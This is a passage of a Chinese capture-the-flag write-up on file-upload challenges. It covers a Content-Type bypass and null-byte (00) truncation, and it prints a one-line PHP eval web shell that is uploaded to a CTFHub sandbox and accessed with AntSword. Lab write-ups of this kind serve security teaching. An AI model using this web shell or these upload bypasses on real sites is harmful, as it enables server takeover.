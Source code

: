 将application/octet-stream改为text/plain试一下

。。。还是失败，换成image/png试一下

![](images/cggg.png)

成功了，接着就是蚁剑连接

![](images/1-2.png)

![](images/2-2.png)

![](images/Snipaste_2025-02-08_16-46-00.png)

![](images/f-2.png)

## 00截断

### 题目：

![](images/tm-1.png)

![](images/tm1.png)

### 解题

搜一下00截断

> 00截断是操作系统层的漏洞，由于操作系统是C语言或汇编语言编写的，这两种语言在定义字符串时，都是以\0（即0x00）作为字符串的结尾。操作系统在识别字符串时，当读取到\0字符时，就认为读取到了一个字符串的结束符号。因此，我们可以通过修改数据包，插入\0字符的方式，达到字符串截断的目的。00截断通常用来绕过web软waf的白名单限制。

看一下源码

![](images/yunma.png)

创建一个名为ww.php.jpg的文件，写入

```php
<?php @eval($_POST["ctf"]);?>
```

上传

![](images/sc1.png)

使用burp，放入重放器中

![](images/2-3.png)

修改，并重新发送

![](images/1-3.png)

打开http://challenge-736e7c823c9e93f3.sandbox.ctfhub.com:10800/upload/ww.php验证一下，没有报错，成功了，接着就是蚁剑获取flag
